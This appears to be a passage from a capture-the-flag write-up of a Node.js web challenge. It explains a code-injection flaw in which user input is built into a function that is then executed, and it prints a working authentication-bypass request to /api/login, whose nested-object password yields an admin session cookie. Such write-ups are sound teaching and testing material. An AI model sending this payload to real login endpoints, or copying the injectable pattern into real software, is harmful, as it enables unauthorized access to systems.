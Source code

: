 ```javascript
		w = 10
	}

	return {m, hp, w, hs}
}``
```

3. Defines a new function whose body is `res` named `quickMaths()`
4. Executes `quickMaths()`
5. Returns the result in an object with the following structure:
	- `mood` can be `kissy`, `cry`, or `awkward`

```json
{
	"mood": String
	"hp": Number,
	"w": Number,
	"hs": Number
}
```

Due to the way user input is placed into the `res` string which is then used to define a function that is subsequently executed, this endpoint is vulnerable to code injection. By submitting JavaScript code in the `activity` key of the input JSON object that is carefully crafted such that it doesn't cause any syntax errors, it is possible to have the application execute that JavaScript code.

## Strategy

1. [Bypass authentication](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)

```http
POST /api/login HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/json
Origin: http://localhost:1337
Content-Length: 54
Connection: close

{
	"username": "admin",
	"password": {
		"password": 1
	}
}
```

```http
HTTP/1.1 200 OK
Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjUzMDE1NjM2fQ.czK8dpNIJbX5Y8EkNDQatGaSNp1lES7IU04E_HXVRgE; Max-Age=3600; Path=/; Expires=Fri, 20 May 2022 04:00:36 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 46
Date: Fri, 20 May 2022 03:00:36 GMT
Connection: close

{"message":"User authenticated successfully!"}
```
